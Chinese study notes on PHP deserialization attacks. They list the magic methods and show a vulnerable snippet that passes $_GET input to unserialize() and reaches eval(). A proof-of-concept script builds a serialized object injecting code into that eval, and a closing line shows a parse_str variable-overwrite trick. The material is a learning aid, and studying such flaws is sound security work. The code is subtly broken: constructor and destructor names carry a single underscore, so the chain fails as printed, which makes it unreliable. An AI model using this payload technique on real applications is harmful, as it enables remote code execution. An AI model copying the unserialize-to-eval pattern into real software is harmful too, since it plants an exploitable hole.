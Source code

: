序列化函数 serialize

反序列化函数unserialize

php输出函数var_dump()

__construct 当一个对象创建时被调用

__destruct 当一个对象销毁时被调用

__toString 当一个对象被当作一个字符串使用

__sleep 在对象被序列化之前运行

__wakeup 在对象被反序列化之后被调用



​	栗子：

​			<?php

​					class example{

​						public $handle;

​						function _destruct(){

​							$this->shutdown();

​							}

​						public function shutdown(){

​							    $this->handle->close();

​							}

​						}

​					class process{

​					   public $pid;

​					   function close(){

​						  eval($this->pid);

​						}

​					}

 				   if(isset($_GET['data'])){

​						$user_data=unserialize(urldecode($_GET['data']));

​					}	

​			?>	

​	利用方式：这段代码包含两个类，一个example和一个process，在process中有一个成员函数close(),其中有一个eval()函数，但是其参数不可控，我们无法利用它执行任意代码。但是在example类中有一个__destruct()析构函数，它会在脚本调用结束的时候执行，析构函数调用了本类中的一个成员函数shutdown()，其作用是调用某个地方的close()函数。于是开始思考这样一个问题：能否让他去调用process中的close()函数且$pid变量可控呢？答案是可以的，只要在反序列化的时候$handle是process的一个类对象，$pid是想要执行的任意代码代码即可。

​			POC	

​			<?php

​					class example{

​						public $handle;

​						function _construct(){

​							$this->handle =new process();

​							}

​						}

​					class process{

​					   public $pid;

​					   function _construct(){

​						   $this->pid= 'phpinfo();';

​						}

​					}

 				  $test = new example();

​				  echo urlencode(serialize($test));

​			?>	

详情<https://www.freebuf.com/column/161798.html>

@parse_str 变量覆盖   栗子：@parse_str($_GET['a']);     a=var=give   用一个变量传多个值因为&会被当成参数的分割符所以需要使用url编码使&变成%26让参数整体化